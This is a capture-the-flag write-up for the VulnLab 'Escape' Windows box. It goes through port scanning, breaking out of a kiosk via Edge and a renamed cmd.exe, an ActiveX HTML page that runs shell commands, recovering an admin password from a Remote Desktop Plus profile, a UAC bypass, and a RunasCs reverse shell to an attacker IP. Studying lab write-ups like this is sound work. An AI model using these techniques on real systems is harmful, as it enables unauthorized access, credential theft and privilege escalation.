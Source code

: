 ```yaml
---
title: VulnLab Escape
description: VulnLab Escape
image:
  path: escape.png
categories:
- VulnLab Boxes
layout: post
media_subpath: /assets/posts/labs/vulnlab/boxes/escape
tags:
- vulnlab-boxes
---
```

# Escape
## Recon
```
└─$ rustscan -a 10.10.125.141 -r 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 65435'.
Open 10.10.125.141:3389
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 20:34 +05
Initiating Ping Scan at 20:34
Scanning 10.10.125.141 [4 ports]
Completed Ping Scan at 20:34, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:34
Completed Parallel DNS resolution of 1 host. at 20:34, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:34
Scanning 10.10.125.141 [1 port]
Discovered open port 3389/tcp on 10.10.125.141
Completed SYN Stealth Scan at 20:34, 0.10s elapsed (1 total ports)
Nmap scan report for 10.10.125.141
Host is up, received echo-reply ttl 127 (0.088s latency).
Scanned at 2024-12-12 20:34:39 +05 for 0s

PORT     STATE SERVICE       REASON
3389/tcp open  ms-wbt-server syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)

```
```
└─$ nmap -sC -sV -p3389 10.10.125.141
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 20:32 +05
Nmap scan report for 10.10.125.141
Host is up (0.087s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-12-12T15:31:27+00:00; -1m19s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2024-12-12T15:31:23+00:00
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2024-12-11T15:27:17
|_Not valid after:  2025-06-12T15:27:17
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m19s, deviation: 0s, median: -1m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds

```
## User
Only `RDP` port is open, let's try connecting.
```
└─$ xfreerdp /v:10.10.125.141 /dynamic-resolution +clipboard -sec-nla
```

Seems like a [KIOSK](https://book.hacktricks.xyz/hardware-physical-access/escaping-from-gui-applications)

![](1.png)

Enter username: `KiosUser0` ana empty password. Then we can press `WIN` button and search for `Edge`/`Internet`, and open `Microsoft Edge`

![](2.png)

From there we can navigate to `file://C:/` which will show us content of `C:` drive. Now we can retrieve user flag.

![](3.png)


## Root
Now we need to get reverse shell. There is a nice [blog](https://blog.nviso.eu/2022/05/24/breaking-out-of-windows-kiosks-using-only-microsoft-edge/) regarding gaining RCE in KIOSK.

First we can download `cmd.exe` from `C:\Windows\System32\`, then rename it to `msedge.exe` (since it's name is in the whitelist). After downloading open location of the file and then press `F2` to rename it.

![](4.png)

![](5.png)

Another way would be to upload the following script
```
<html>
<body>
    <script>
    function shlExec() {
        var cmd = document.getElementById('cmd').value
        var shell = new ActiveXObject("WScript.Shell");
        try {
            var execOut = shell.Exec("cmd.exe /C \"" + cmd + "\"");
        } catch (e) {
            console.log(e);
        }

        var cmdStdOut = execOut.StdOut;
        var out = cmdStdOut.ReadAll();
        alert(out);
    }
</script>

<form onsubmit="shlExec()">
    Command: <input id="cmd" name="cmd" type="text">
    <input type="submit">
</form> 
</body>
</html>
```

Then in `msedge`, navigate to `Settings > Default browser` and set `Allow sites to be reloaded in Internet Explorer mode` to `Allow` open this file. Set url to `file:///C:/Users/kioskUser0/Downloads/pwn.html`

![](6.png)

Now, we have to create this file. We can do it via developer tools

![](7.png)

Click `Edit as HTML` and delete everything. Paste the snippet above.

![](8.png)

Now save it as `pwn.html` (`CTRL+S`)

![](9.png)

Visit page `file:///C:/Users/kioskUser0/Downloads/pwn.html`. We should allow blocked content (popup down below)

![](10.png)

Then we run our command. Click `Yes` in popup window (it will appear every time we execute command)

![](11.png)

And we see results in another window popup

![](12.png)

Okay, let's continue with privilege escalation. I'll use `cmd` approach. We find interesting `_admin` folder with `profiles.xml` file in it

![](13.png)

![](14.png)

The file is related to `Remote Desktop Plus` which is located in `C:\Program Files (x86)\Remote Desktop Plus`

![](15.png)

First, we can try opening it with `rdp.exe` by importing the profile. Thus copy the profile to `Downloads` folder and then run `rdp.exe`

![](16.png)

Now, open the `rdp.exe` and import the profile

![](17.png)


Notice that the password is obfuscated. Thus, we need [BullePassView](https://www.nirsoft.net/utils/bullets_password_view.html), which  is a password recovery tool that reveals the passwords stored behind the bullets in the standard password text-box of Windows operating system and Internet Explorer Web browser. When we click `Edit` on profile, `BullePassView` will display the password in the plaintext

![](18.png)


Now we have `admin` user from `Administrators` group. So, now we can either use [RunasCS](https://github.com/antonioCoco/RunasCs) and receive reverse shell, or we can simply use `runas` from `cmd.exe`. Let's try with `runas`. We run `runas /user:ESCAPE\admin cmd`, and see that the process is running in medium integrity level.


![](20.png)

To bypass UAC, we can simply start `Start-Process powershell -Verb runas` from powershell. We we get UAC dialog, where we click `Yes`. Now we have elevated process.

![](21.png)

![](22.png)

To run `RunasCS`, we need to download both `netcat` and tools itself.

![](19.png)

Then we have to run the following command
```
.\r.exe admin <REDACTED> -r 10.8.4.147:9000 cmd.exe --bypass-uac  
```

![](23.png)

And we receive our shell

![](24.png)

[https://api.vulnlab.com/api/v1/share?id=059ab679-8b32-4a73-a38d-876c08c22088](https://api.vulnlab.com/api/v1/share?id=059ab679-8b32-4a73-a38d-876c08c22088)